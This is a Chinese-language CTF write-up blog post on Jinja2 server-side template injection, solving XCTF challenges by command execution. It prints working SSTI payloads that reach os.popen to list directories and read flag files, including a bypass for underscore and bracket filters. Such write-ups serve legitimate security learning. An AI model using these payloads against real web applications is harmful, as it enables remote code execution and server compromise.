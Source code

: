 ```yaml
---
title: SSTI
date: 2020-12-22 
description: XCTF华为专场的mine-1，触及到了知识盲区。这就是大佬们的签到题吗？
category: 信息安全
tags:
  - CTF
  - SSTI
---
```

# 老题新做,梦开始的地方
## 手工遍历的菜鸡，像极了当初的自己
攻防世界上的一道题：Web_python_template_injection，之前做过一次，这次感觉前前后后理解明白了（来源又是XCTF，这是杠上了）  
这道题什么都没有过滤  
ls的payload:
```
{% raw %}
{{().__class__.__base__.__subclasses__()[71].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls").read()')}}
{% endraw %}
```
为了防止忘了，还是把每个指令的作用记录一下
```
__class__返回参数类型	().__class__就返回了tuple类型
__base__或__mro__返回基类。__mro__其实返回的是解析方法调用的顺序（method resolution order），返回的东西多
__subclasses__获取基类的子类
__getitem__切片操作。'os'所在的'site._Printer'是78个，所以用77
__init__类的初始化方法
__globals__对包含函数全局变量的字典的引用
__builtins__里面是自建模块
eval可以把数据整合成str格式
__import__("os")加载os
```
这个题不能用下面的request的方法，会直接跳过{{}}，因为是不是`/msg={{}}`，而是`/{{}} ` 
`ls`查看的是当前目录
![ls当前目录](https://raw.githubusercontent.com/HideonBlack/hideonblack.github.io/master/assets/images/SSTI/ls%E5%BD%93%E5%89%8D%E7%9B%AE%E5%BD%95.png)
看到了fl4g文件  
`ls /`查看的是根目录
![根目录文件](https://raw.githubusercontent.com/HideonBlack/hideonblack.github.io/master/assets/images/SSTI/ls%E6%A0%B9%E7%9B%AE%E5%BD%95.png)
因为已经看到flag了，所以用`pwd`查看绝对路径，看看flag到底在哪个文件，假装自己遍历了
![在404](https://raw.githubusercontent.com/HideonBlack/hideonblack.github.io/master/assets/images/SSTI/pwd.png)
竟然在一个叫404的文件夹下面，刚开始还以为是url里的404  
`ls /404`可以看到flag文件
![看到了flag文件](https://raw.githubusercontent.com/HideonBlack/hideonblack.github.io/master/assets/images/SSTI/ls%E5%BD%93%E5%89%8D%E7%9B%AE%E5%BD%95.png)
最后用`cat fl4g`读取文件
![flag](https://raw.githubusercontent.com/HideonBlack/hideonblack.github.io/master/assets/images/SSTI/flag.png)
## 都0202年了，遍历这事还是写程序吧

# XCTF mine1_1
这道题大括号里过滤了`_` `[]` `''` `""`以及`args`  
如果只过滤`[]`的话，payload长这样：
```
{% raw %}
{{().__class__.__base__.__subclasses__().__getitem__(77).__init__.__globals__.__getitem__('__builtins__').__getitem__('eval')('__import__("os").popen("ls /").read()')}}
{% endraw %}
```
因为又过滤了下划线，payload长这样：
```
{% raw %}
{{()|attr(request.values.x1)|attr(request.values.x2)|attr(request.values.x3)()|attr(request.values.x4)(77)|attr(request.values.x5)|attr(request.values.x6)|attr(request.values.x4)(request.values.x7)|attr(request.values.x4)(request.values.x8)(request.values.x9)}}&x1=__class__&x2=__base__&x3=__subclasses__&x4=__getitem__&x5=__init__&x6=__globals__&x7=__builtins__&x8=eval&x9=__import__("os").popen('ls /').read()
{% endraw %}
```
`args`没被过滤的话也能用。学长也有用`request.cookie.x1`做的，用bp抓包添加cookie值。
# 一个小插曲，我渗透我自己
写这篇文章的时候Jekyll竟然把`{% raw %}{{}}{% endraw %}`里面给我当liquid代码执行了。同学的hexo没问题，试了一下因为多终端过于憨批，折腾了半天又用回了Jekyll  
这CTF打的，我渗透我自己  
解决办法  
{% assign openTag = '{%' %}
```
{% assign openTag = '{%' %}
{{ openTag }} raw %}
小爷我要打无数个大括号
{{ openTag }} endraw %}
```
那么奇奇怪怪的问题又增加了  
我是怎么打出来`{{ openTag }} raw %}`而没有被执行呢
```

{{ openTag }} raw %}
小爷我要打无数个大括号
{{ openTag }} endraw %}
```
